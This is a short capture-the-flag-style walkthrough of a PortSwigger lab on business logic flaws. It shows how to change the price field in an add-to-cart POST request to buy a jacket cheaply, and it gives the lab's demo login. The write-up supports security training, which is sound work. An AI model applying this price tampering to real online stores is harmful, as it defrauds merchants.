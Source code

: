 Excessive trust in client-side controls
=======================================

This lab doesn't adequately validate user input. You can exploit a logic flaw in
its purchasing workflow to buy items for an unintended price. To solve the lab,
buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: wiener:peter

References:

-   https://portswigger.net/web-security/logic-flaws/examples

![img](media/c450e7c040e04a17e8210ae7171e29f4.png)

When the product is added to the cart, it is possible to change the price
parameter:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /cart HTTP/2
...

productId=1&redir=PRODUCT&quantity=1&price=133700
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/6f7a3a13e207c20ce58882a474de32ac.png)
